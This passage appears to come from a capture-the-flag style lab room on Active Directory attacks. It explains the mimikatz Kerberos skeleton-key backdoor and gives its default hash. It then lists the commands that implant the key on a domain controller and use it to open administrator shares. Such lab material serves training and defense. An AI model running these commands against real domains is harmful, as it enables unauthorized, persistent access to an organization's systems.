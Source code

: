 [kerberos-ticket](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-silver-tickets)

### Kerberos Backdoors w/ mimikatz 

Along with maintaining access using golden and silver tickets mimikatz has one other trick up its sleeves when it comes to attacking Kerberos. Unlike the golden and silver ticket attacks a Kerberos backdoor is much more subtle because it acts similar to a rootkit by implanting itself into the memory of the domain forest allowing itself access to any of the machines with a master password. 

The Kerberos backdoor works by implanting a skeleton key that abuses the way that the AS-REQ validates encrypted timestamps. A skeleton key only works using Kerberos RC4 encryption. 

The default hash for a mimikatz skeleton key is 60BA4FCADC466C7A033C178194C03DF6 which makes the password -"mimikatz"

This will only be an overview section and will not require you to do anything on the machine however I encourage you to continue yourself and add other machines and test using skeleton keys with mimikatz.

Skeleton Key Overview -

The skeleton key works by abusing the AS-REQ encrypted timestamps as I said above, the timestamp is encrypted with the users NT hash. The domain controller then tries to decrypt this timestamp with the users NT hash, once a skeleton key is implanted the domain controller tries to decrypt the timestamp using both the user NT hash and the skeleton key NT hash allowing you access to the domain forest.

![](https://i.imgur.com/yNI0zEb.png)

Preparing Mimikatz - 

1.) cd Downloads && mimikatz.exe - Navigate to the directory mimikatz is in and run mimikatz

2.) privilege::debug - This should be a standard for running mimikatz as mimikatz needs local administrator access


Installing the Skeleton Key w/ mimikatz -

1.) misc::skeleton - Yes! that's it but don't underestimate this small command it is very powerful


Accessing the forest - 

The default credentials will be: "mimikatz"

example: net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz - The share will now be accessible without the need for the Administrators password

example: dir \\Desktop-1\c$ /user:Machine1 mimikatz - access the directory of Desktop-1 without ever knowing what users have access to Desktop-1

The skeleton key will not persist by itself because it runs in the memory, it can be scripted or persisted using other tools and techniques however that is out of scope for this room.



I understand how to implant a skeleton key into a domain controller with mimikatz
*No answer needed*
